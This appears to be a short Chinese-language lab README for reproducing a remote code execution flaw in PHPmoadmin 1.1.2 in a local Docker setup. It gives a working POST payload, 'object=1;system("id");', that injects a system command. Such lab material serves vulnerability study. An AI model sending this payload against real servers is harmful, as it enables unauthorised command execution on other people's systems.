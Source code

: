 # PHPmoadmin RCE
## 漏洞描述
PHPmoadmin RCE
  
version:1.1.2
## 启动
`docker-compose up -d`
## writeup  
访问`http://localhost:8888/moadmin.php`,将payload用POST发送。

payload:
`object=1;system("id");`  

## 复现结果
![ALT 1](1.png)  



